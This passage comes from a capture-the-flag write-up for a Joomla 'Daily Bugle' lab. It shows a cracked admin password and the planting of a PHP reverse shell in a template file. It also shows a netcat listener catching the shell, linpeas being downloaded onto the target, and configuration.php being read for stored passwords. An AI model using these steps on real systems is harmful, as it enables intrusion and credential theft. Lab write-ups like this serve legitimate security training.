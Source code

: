 1 password hash cracked, 0 left


```

>A) spiderman123


### 3) What is the user flag?

- Using the creds found login to the admin pannel 
- In the dashboard we can see that there is an option named extentions in that select Templates

```>Extensions>Templates>Templates```

- we can edit the index.php file 
- i have uploded a php shell from pentestmonkey php-revershell-shell i the index.php
- pentestmonkey php-reverse-shell github 

```https://github.com/pentestmonkey/php-reverse-shell```

- Then start the netcat listener using the given port in the shell 

```
kali@kali:~/Desktop/thm/daily-bugle$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.114.228] from (UNKNOWN) [10.10.153.81] 35376
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 05:11:53 up  1:58,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache
sh-4.2$ 

```

- Here we go we got a shell and now we are apache
- Then we can go to /tmp and run a python server on our machine in the linpeas location and  weget linpeas in the target /tmp directory and run it 
- From the linpeas output we got this configuration file 

```[+] Searching passwords in config PHP files
/var/www/html/configuration.php
/var/www/html/libraries/joomla/log/logger/database.php

```

- Then after opening the file i got this information 

```
sh-4.2$ cat configuration.php
cat configuration.php
<?php
class JConfig {
    public $offline = '0';
    public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
    public $display_offline_message = '1';
    public $offline_image = '';
    public $sitename = 'The Daily Bugle';
    public $editor = 'tinymce';
    public $captcha = '0';
    public $list_limit = '20';
```